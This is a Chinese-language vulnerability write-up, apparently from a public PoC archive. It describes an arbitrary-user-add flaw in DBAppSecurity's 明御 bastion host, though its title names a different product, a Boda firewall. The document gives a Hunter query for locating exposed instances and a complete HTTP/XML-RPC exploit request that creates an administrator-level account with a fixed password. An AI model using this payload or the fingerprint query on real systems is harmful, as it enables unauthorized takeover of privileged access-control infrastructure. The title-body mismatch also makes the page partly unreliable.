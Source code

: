 # 博达下一代防火墙aaa_portal_auth_local_submit存在命令执行漏洞

# 一、漏洞简介
安恒明御运维审计与风险控制系统（简称“DASUSM”）是一款基于运维安全管理的理论和实践经验，结合各类法律法规（如等级保护、赛班斯法案SOX、PCI、企业内控管理、分级保护、ISO/IEC 27001等）对运维审计的要求，采用B/S架构，集“身份认证（Authentication）、账户管理（Account）、控制权限（Authorization）、日志审计（Audit）”于一体，支持多种字符终端协议、文件传输协议、图形终端协议、远程应用协议的安全监控与历史查询，具备全方位运维风险控制能力的统一安全管理与审计产品。安恒明御运维审计风险控制系统（堡垒机）存在任意用户添加漏洞，攻击者可利用该漏洞添加用户登录堡垒机。

# 二、影响版本
+ 安恒明御运维审计与风险控制系统

# 三、资产测绘
+ hunter:`app.name=="安恒明御运维审计与风险控制系统"`

![1691393320775-2fcf53cd-f670-4d22-a04e-ae7f76d4cb44.png](./img/SZ4CFa0jWYPgqgUv/1691393320775-2fcf53cd-f670-4d22-a04e-ae7f76d4cb44-236122.png)

+ 首页

![1691393366555-3c70041c-447d-415f-a6e6-bd852a153318.png](./img/SZ4CFa0jWYPgqgUv/1691393366555-3c70041c-447d-415f-a6e6-bd852a153318-596904.png)

# 四、漏洞复现
使用exp添加用户`qaxnb666/Admin123..`

```java
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 1112

<?xml version="1.0"?>
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.17.1.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>qaxnb666</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>yuwe</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>Admin123..</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>101</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![1691393678758-f523c4a1-eb67-42fb-ae42-b3bb5c838378.png](./img/SZ4CFa0jWYPgqgUv/1691393678758-f523c4a1-eb67-42fb-ae42-b3bb5c838378-989984.png)

![1691393729985-1a6856f8-5697-483e-a696-b7f1f69a28e9.png](./img/SZ4CFa0jWYPgqgUv/1691393729985-1a6856f8-5697-483e-a696-b7f1f69a28e9-817517.png)



> 更新: 2024-07-17 17:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ha1dzr2395nad5m3>